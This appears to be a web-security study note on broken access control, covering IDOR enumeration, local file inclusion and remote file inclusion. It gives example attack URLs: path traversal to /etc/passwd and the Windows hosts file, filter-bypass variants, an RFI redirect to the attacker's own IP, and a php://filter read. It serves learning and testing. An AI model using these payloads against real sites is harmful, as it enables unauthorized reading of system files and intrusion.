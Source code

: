 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broken Access Control

When a user can see or do things they aren't supposed to. The most common ways in which it's presented are:

* **IDOR:** Insecure Direct Object Reference, when an application fail to secure access to restringed data to an user
* **Weak authorization:** Fail to protect sensitive content. Example: Secure admin page with a readable cookie
* **Security through obscurity:** Try to hide secret information in paths that seems  not to be visible.
* **File Inclusion:** Setting routes via URL to access system files or redirecting to another pages

### Example:

* Check if URL contains enumeration of objects

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It is searching for an object with id=2
http://$url/id/2
#We can assume that exist id=1 or any number and try to get it
http://$url/id/$number #This could show objects normally hidden to the user
```
{% endcode %}

***



## <mark style="color:purple;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

### Example:

* Check if parameters in URL recieve name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Its searching for a file
http://$url/$query?$param=hola.php
#We can try to access to system important files
http://$url/$query?$param=/etc/passwd
```
{% endcode %}

***

* When can't be done directly try to get to root folder

{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd

#Same can be done in windows
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
```
{% endcode %}

{% hint style="info" %}
Is useful to put as many `../` as posible to get to root folder
{% endhint %}

***

* In some cases try to check page code to see conditions of the input

{% code overflow="wrap" lineNumbers="true" %}
```bash
#The code is searching for a file that starts with file
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {

http://$url/$query?$param=file/../../../../etc/passwd

#The code is replacing ../, we can use \ to skip check
$file = str_replace( array( "../", "..\\" ), "", $file );

http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```
{% endcode %}

***



## <mark style="color:purple;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to redirect actions to or from a another server

### Example:

* Redirect actions of a server via URL parameters

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#Its searching for a file
http://$url/$query?$param=hola.php
<strong>#Redirection to another site
</strong>http://$url/$query?$param=http://$url
#Redirection to a local server
http://$url/$query?$param=//$myip
</code></pre>

***

* When blocking type of protocol

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Code is blocking hhtp
$file = str_replace( array( "http", "https" ), "", $file );
#We can use another conection protocol
http://$url/$query?$param=php://filter/resource=/etc/passwd
```
{% endcode %}

***

